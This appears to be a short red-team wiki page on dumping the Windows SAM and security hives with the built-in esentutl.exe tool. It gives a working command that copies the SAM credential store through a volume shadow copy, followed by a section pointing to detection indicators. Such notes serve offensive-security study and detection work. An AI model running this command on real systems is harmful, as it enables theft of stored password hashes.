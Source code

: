 # Dumping SAM via esentutl.exe

## Execution

It's possible to use esentutl.exe that comes with Windows and dump SAM/Security hives like so:

```
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

![](<../../.gitbook/assets/image (632).png>)

## Observation

The below are some potential IOCs for detecting this technique:

![](<../../.gitbook/assets/image (633).png>)

## References

{% embed url="https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running" %}
